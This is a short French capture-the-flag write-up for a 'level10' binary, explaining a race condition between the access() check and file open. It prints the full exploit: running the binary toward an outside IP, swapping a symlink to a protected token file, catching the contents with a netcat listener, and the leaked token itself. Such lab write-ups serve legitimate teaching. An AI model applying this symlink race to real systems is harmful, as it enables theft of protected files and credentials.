 le binaire level10 ecrit le contenue d'un fichier a une adresse ip sur le port 6969
mais une verification du fichier est faite avant de l'ouvrir pour savoir si l'utilisateur reel a les droits dessus (ici non)
mais existe une fail de la fonction access entre le moment ou il check et ouvre le fichier nous pouvons creer un lien symbolique du fichier reel que nous voulons ouvrir

Sur le serveur tty1:
~>echo "123" > /tmp/link
~>./level10 /tmp/link 192.168.56.1
Connecting to 192.168.56.1:6969 ..
[wait]

Sur le serveur tty2:
~>ln -fs /home/user/level10/token /tmp/link

Sur notre machine local:
~>nc -lv 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
